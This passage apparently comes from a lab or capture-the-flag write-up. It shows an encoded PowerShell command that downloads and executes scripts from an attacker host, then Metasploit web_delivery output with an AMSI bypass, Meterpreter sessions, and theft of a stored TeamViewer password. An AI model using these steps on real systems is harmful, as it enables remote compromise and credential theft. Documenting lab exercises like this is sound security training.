ARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgA6ADgAMAA4ADAALwAyAEcAMgBYAFUAUQBhAFoANgBoAFoALwBJADQATABnAE0AVwBMADUATgBzADIASwBnAGsAJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAOgA4ADAAOAAwAC8AMgBHADIAWABVAFEAYQBaADYAaABaACcAKQApADsA'
```

```bash
[*] Sending stage (201798 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.180:49739) at 2024-05-24 23:23:02 -0700
[*] 10.10.10.180     web_delivery - Delivering AMSI Bypass (1391 bytes)
[*] 10.10.10.180     web_delivery - Delivering Payload (3723 bytes)
[*] Sending stage (201798 bytes) to 10.10.10.180
[*] Meterpreter session 2 opened (10.10.14.2:4444 -> 10.10.10.180:49758) at 2024-05-24 23:25:11 -0700
```

```bash
msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x64/windows  IIS APPPOOL\DefaultAppPool @ REMOTE  10.10.14.2:4444 -> 10.10.10.180:49739 (10.10.10.180)
  2         meterpreter x64/windows  IIS APPPOOL\DefaultAppPool @ REMOTE  10.10.14.2:4444 -> 10.10.10.180:49758 (10.10.10.180)
```

```bash
msf6 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > sysinfo
Computer        : REMOTE
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > search teamviewer

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/server/teamviewer_uri_smb_redirect          .                normal  No     TeamViewer Unquoted URI Handler SMB Redirect
   1  post/windows/gather/credentials/teamviewer_passwords  .                normal  No     Windows Gather TeamViewer Passwords


Interact with a module by name or index. For example info 1, use 1 or use post/windows/gather/credentials/teamviewer_passwords

msf6 exploit(multi/script/web_delivery) > use 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > set session 1
session => 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > exploit 

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/kali/.msf4/loot/20240524233537_default_10.10.10.180_host.teamviewer__980434.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
msf6 post(windows/gather/credentials/teamviewer_passwords) >
```
